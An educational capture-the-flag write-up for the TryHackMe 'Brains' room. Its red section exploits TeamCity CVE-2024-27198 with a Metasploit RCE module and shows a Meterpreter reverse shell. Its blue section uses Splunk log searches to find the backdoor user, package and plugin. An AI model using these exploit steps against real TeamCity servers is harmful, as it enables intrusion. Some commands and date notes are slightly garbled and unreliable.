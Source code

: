 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

<p style="font-size: 50px; color: crimson;"><strong>🔴 RED exploit the server!</strong></p>
# 1. What is the content of flag.txt in the user's home folder?

<Details>
      
# 1. First Step: run in the Terminal "nmap -p- *Target_IP_Address* "

```bash
nmap -p- 10.10.252.192
````
 1. "nmap" -> The network scanner tool
 2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
 3. "Target_IP_Address" -> The IP address of the target — in the case of the Brains room
      
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)
   
# What ports are open and why they matter: 
   1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
   2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
   3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.
   
# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 *Target_IP_Address* "
   ```bash
   nmap -sV -p 50000 10.10.252.192
   ```
   
# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
   
   *The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
   ```bash
   msfconsole
   ```
   1. "msfconsole" -> This launches the Metasploit interface.
   
   ```bash
   search teamcity
   ```
   1. "search teamcity" -> This will list available exploit modules related to TeamCity
   *Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*
   
#  Use the module:
   ```bash
   use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
   ```
# After loading an exploit module in Metasploit, you should always run: 
   ```bash
   options
   ```
   1. "options" -> This command shows you all the configurable parameters for the selected module
      
   ![Nmap Scan](Brain%20Room%20exploit%20run.JPG)
   
   *We need to set the correct options before running the exploit.*
   ```bash
   set RHOSTS 10.10.252.192     # Target IP address
   set RPORT 50000              # Target port where TeamCity is running
   ```
   *Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
   ```bash
   run   #or exploit
   ```
# Expected Output:
   *If the target is vulnerable and the configuration is correct, you should see output similar to this:*
   ```bash
   [*] Started reverse TCP handler on 10.10.X.X:4444
   [*] Sending stage (57971 bytes) to 10.10.X.X
   [*] Meterpreter session 1 opened ...
   ```
   *This confirms that you now have a meterpreter shell on the target machine!*
   
# Now That We Are in Meterpreter...Navigate the file system
   ```bash
   cd /home/cd ubuntu
   ls
   ```
   *Once you find it, read its contents*
   ```bash
   cat flag.txt
   ```
   ![Nmap Scan](Brain%20Room%20flag.JPG)
   
# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
   *Instead, here is a simulated example of what the output would look like:*
   
   ```bash
   meterpreter > cat flag.txt
   THM{redacted_for_policy}
   ```
   </Details>

# BLUE lets investigate!
# 1. What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# First Step: Access the Web Application
   *Once the target machine is deployed, open your web browser and navigate to the following address:*
   ```bash
   10.10.249.14:8000
   ```
   1. "10.10.249.14" -> The target machine's IP address
   2. "8000" -> The port number
   
# Second Step: Access Search & Reporting
   
   *In the left-hand panel, you can see a list of installed apps within Splunk; Click on Search & Reporting*
   
   ![Nmap Scan](Brain%20Room%20Web%20search.JPG)
   
# Search for the Backdoor User
   *Now that we are inside Search & Reporting, it's time to use Splunk’s powerful query system to investigate the logs and answer the first question*
   *We're going to search inside the authentication logs (auth.log) for entries related to the creation of new users.*
   
   ```bash
   source="/var/log/auth.log" *new user* #Set Time Range to “All time”
   ```
   ![Nmap Scan](Brain%20Room%20F1.JPG)

   *Look specifically for an event that occurred on 7/4/24 in the logs*
# ✅ CONGRATULATIONS!!! The value in place of [NAME] is the flag answer to the challenge question*

</Details>

# 2. What is the name of the malicious-looking package installed on the server?
<Details>

# Lets find the Malicious-Looking Package Installed on the Server
  *we’ll search in Splunk’s logs for any package installation events*

  ```bash
  source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*

  # source="/var/log/dpkg.log" → This is the Debian package manager log, which records installed
  # date_month="july" → We filter by the correct month.
  # date_mday="4" → And the specific day of the event: April 7th, 2024 is interpreted as July 4 based on the system’s locale format in Splunk
  # *install* → We're looking for any entries that contain the word install, which is part of the log line when a package is installed.
  ```

  *Why This Date? We know from previous investigation that the exploitation happened on 7/4/24*
  *In the search results, you'll see lines like: install [PACKAGE-NAME] [version]*

# ✅ CONGRATULATIONS!!! The [PACKAGE-NAME] that looks suspicious is our answer to the question

</Details>

# 3. What is the name of the plugin installed on the server after successful exploitation?
<Details>

# Identify the Plugin Installed After Exploitation
 *we need to check TeamCity’s activity logs, which record changes in the system, including plugin uploads or installations.*

 ```bash
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*

# source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" → This is the log file where TeamCity activity events (like plugin actions) are recorded.
# *plugin* → We use a wildcard search to look for any lines that contain the word plugin, which likely appears during plugin installation.
```

# ✅ CONGRATULATIONS!!! Pro Tip: The plugin will appear in plain text, but when submitting the answer to the question, make sure to append .zip to the name

</Details>






